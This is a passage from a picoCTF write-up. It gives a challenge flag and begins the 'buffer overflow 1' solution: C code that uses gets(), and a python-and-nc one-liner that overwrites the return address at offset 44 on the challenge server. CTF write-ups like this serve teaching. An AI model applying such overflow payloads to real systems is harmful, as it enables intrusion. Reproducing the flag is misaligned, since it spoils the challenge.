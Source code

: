 ```
picoCTF{CVE-2021-34527}
```

## buffer overflow 1

![](Images/Q-buffer-overflow-1.png)

In the `vuln()` function, it gets a buffer `buf` and executes `get_return_address()`, which will be printed.

```c
void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}
```

Testing it on the server, I figure out that with offset 44, we can overwrite the jump to address.

```sh
>> python2 -c "print 'A'*44+'B'*4" | nc saturn.picoctf.net 58109
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x42424242
```
